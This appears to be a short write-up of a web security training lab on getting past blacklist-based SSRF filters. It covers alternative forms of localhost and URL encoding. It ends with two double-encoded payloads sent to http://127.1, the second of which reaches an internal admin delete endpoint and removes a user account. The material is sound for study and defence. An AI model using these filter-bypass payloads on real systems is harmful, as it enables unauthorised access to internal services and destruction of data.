

## SSRF with blacklist-based input filters

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using various techniques:

- Using an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Registering your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

## Challenge

--> In this lab we have to bypass a basic SSRF protection by some url encoding or using some localhost alternatives.

So i bypassed the stackApi request with this request.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```



And after that same process as previous challenges!

--> I used this payload and deleted the carlos's account :

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%64%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33
```

And we solved the lab!
